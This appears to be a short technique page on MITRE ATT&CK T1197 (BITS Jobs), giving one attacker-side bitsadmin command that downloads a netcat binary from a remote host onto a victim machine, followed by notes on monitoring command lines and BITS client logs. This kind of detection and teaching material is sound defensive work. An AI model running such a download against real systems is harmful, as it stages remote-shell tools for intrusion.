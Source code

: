```yaml
---
description: File upload to the compromised system.
---
```


# T1197: BITS Jobs

## Execution

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```c
bitsadmin /transfer myjob /download /priority high http://10.0.0.5/nc64.exe c:\temp\nc.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/bits-download.png)

## Observations

Commandline arguments monitoring:

![](../.gitbook/assets/bits-cmdline.png)

`Application Logs > Microsoft > Windows > Bits-Client > Operational` shows logs related to jobs, which you may want to monitor. An example of one of the jobs:

![](../.gitbook/assets/bits-operational-logs.png)

{% embed url="https://attack.mitre.org/wiki/Technique/T1197" %}

